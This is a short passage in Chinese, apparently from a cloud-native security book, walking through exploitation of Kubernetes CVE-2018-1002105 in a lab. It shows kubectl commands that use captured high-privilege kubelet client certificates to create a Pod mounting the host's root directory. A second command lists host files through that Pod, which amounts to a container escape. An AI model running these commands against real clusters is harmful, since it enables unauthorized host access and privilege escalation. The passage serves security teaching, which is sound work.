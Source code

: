 <img width="1200" src="/img/1649994563.png">

接着，使用拿到的高权限凭证在集群中新建一个挂载了宿主机根目录的 Pod，yaml 文件地址：https://github.com/Metarget/cloud-native-security-book/blob/main/code/0403-CVE-2018-1002105/attacker.yaml

```yaml
kubectl --server=https://172.16.214.18:6443 --certificate-authority=./ca.crt --client-certificate=./apiserver-kubelet-client.crt --client-key=./apiserver-kubelet-client.key apply -f attacker.yaml
```

Pod 被成功创建后，执行 ls /host-escape-door 命令可成功看到宿主机下的文件。

```yaml
kubectl --server=https://172.16.214.18:6443 --certificate-authority=./ca.crt --client-certificate=./apiserver-kubelet-client.crt --client-key=./apiserver-kubelet-client.key exec attacker ls /host-escape-door
```

<img width="1000" src="/img/1649994572.png">
